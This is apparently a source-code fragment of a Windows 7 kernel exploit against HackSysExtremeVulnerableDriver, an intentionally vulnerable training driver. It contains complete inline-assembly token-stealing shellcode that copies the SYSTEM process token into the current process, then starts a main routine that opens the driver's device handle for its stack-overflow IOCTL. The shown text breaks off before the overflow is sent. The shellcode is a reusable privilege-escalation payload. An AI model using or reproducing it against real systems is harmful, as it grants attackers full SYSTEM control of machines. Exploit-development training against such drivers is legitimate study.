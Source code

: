 VOID TokenStealingShellcodeWin7() {
	// Importance of Kernel Recovery
	__asm {
		; initialize
			pushad; save registers state

			mov eax, fs:[KTHREAD_OFFSET]; Get nt!_KPCR.PcrbData.CurrentThread
			mov eax, [eax + EPROCESS_OFFSET]; Get nt!_KTHREAD.ApcState.Process

			mov ecx, eax; Copy current _EPROCESS structure

			mov ebx, [eax + TOKEN_OFFSET]; Copy current nt!_EPROCESS.Token
			mov edx, SYSTEM_PID; WIN 7 SP1 SYSTEM Process PID = 0x4

		SearchSystemPID:
			mov eax, [eax + FLINK_OFFSET]; Get nt!_EPROCESS.ActiveProcessLinks.Flink
			sub eax, FLINK_OFFSET
			cmp[eax + PID_OFFSET], edx; Get nt!_EPROCESS.UniqueProcessId
			jne SearchSystemPID

			mov edx, [eax + TOKEN_OFFSET]; Get SYSTEM process nt!_EPROCESS.Token
			mov[ecx + TOKEN_OFFSET], edx; Copy nt!_EPROCESS.Token of SYSTEM to current process
			popad; restore registers state

			; recovery
			xor eax, eax; Set NTSTATUS SUCCEESS
			add esp, 12; fix the stack
			pop ebp
			ret 8
	}
}

//Definition taken from HackSysExtremeVulnerableDriver.h
#define HACKSYS_EVD_IOCTL_STACK_OVERFLOW	CTL_CODE(FILE_DEVICE_UNKNOWN, 0x800, METHOD_NEITHER, FILE_READ_DATA | FILE_WRITE_DATA)

int _tmain(int argc, _TCHAR* argv[])
{
	DWORD lpBytesReturned;
	PVOID pMemoryAddress = NULL;
	PUCHAR lpInBuffer = NULL;
	LPCSTR lpDeviceName = (LPCSTR) "\\\\.\\HackSysExtremeVulnerableDriver";
	SIZE_T nInBufferSize = 521 * 4 * sizeof(UCHAR); 

	printf("Getting the device handle\r\n");
	//HANDLE WINAPI CreateFile( _In_ lpFileName, _In_ dwDesiredAccess, _In_ dwShareMode, _In_opt_ lpSecurityAttributes,
	//_In_ dwCreationDisposition, _In_ dwFlagsAndAttributes, _In_opt_ hTemplateFile );
	HANDLE hDriver = CreateFile(lpDeviceName,			//File name - in this case our device name
		GENERIC_READ | GENERIC_WRITE,					//dwDesiredAccess - type of access to the file, can be read, write, both or neither. We want read and write because thats the permission the driver declares we need.
		FILE_SHARE_READ | FILE_SHARE_WRITE,				//dwShareMode - other processes can read and write to the driver while we're using it but not delete it - FILE_SHARE_DELETE would enable this.
		NULL,											//lpSecurityAttributes - Optional, security descriptor for the returned handle and declares whether inheriting processes can access it - unneeded for us.
		OPEN_EXISTING,									//dwCreationDisposition - what to do if the file/device doesn't exist, in this case only opens it if it already exists, returning an error if it doesn't.
		FILE_ATTRIBUTE_NORMAL | FILE_FLAG_OVERLAPPED,	//dwFlagsAndAttributes - In this case the FILE_ATTRIBUTE_NORMAL means that the device has no special file attributes and FILE_FLAG_OVERLAPPED means that the device is being opened for async IO.
		NULL);											//hTemplateFile - Optional, only used when creating a new file - takes a handle to a template file which defineds various attributes for the file being created.
